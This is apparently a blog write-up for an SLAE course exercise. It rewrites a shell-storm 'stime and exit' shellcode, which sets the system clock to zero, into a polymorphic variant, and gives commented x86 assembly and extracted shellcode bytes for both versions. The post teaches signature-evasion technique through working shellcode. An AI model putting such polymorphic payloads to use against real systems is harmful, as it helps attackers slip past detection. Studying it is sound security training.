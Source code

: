 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 1 Stime
subtitle: Polymorphic Shellcode Part 1
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'stime and exit' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php). This shellcode sets the device's time to 0, and then gracefully exits. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:


;stime([0])

push byte 25 ; Push 25 to the stack
pop eax      ; Pop 25 into eax for the stime syscall
cdq          ; Extend eax into edx, clearing the edx register
push edx     ; Push edx to the stack (0)
mov ebx, esp ; Move stack pointer into ebx - the time parameter is pointed to
int 0x80     ; Interupt to syscall

;exit()

inc eax      ; On success, return value from stime is 0, inc to 1 for exit syscall
int 0x80     ; Call interupt to exit gracefully
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:

;stime(0)
xor eax, eax  ; clear eax register
push eax      ; push 0 to the stack
add eax, 25   ; add 25 to eax for the stime syscall
xchg ebx, esp ; point to the 0 in the stack
int 0x80      ; interupt to syscall

;exit
inc eax       ; if succesful, return value is 0 to eac, increment eax to be 1 for exit syscall
int 0x80      ; interupt to syscall to exit gracefully
```
It can be clearly seen that the 'stime' section of the code is completely different from before, whilst maintaining a relatively small size. The 'exit' section of the code remains the same, this could be changed with an 'add' or 'mov' instruction, however using the 'inc' instruction maintains a small size. 

When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x6a\x19\x58\x99\x52\x89\xe3\xcd\x80\x40\xcd\x80"
```

**Polymorphic**

```
"\x31\xc0\x50\x83\xc0\x19\x87\xdc\xcd\x80\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode, which is nearly completely different, is only one byte larger. 


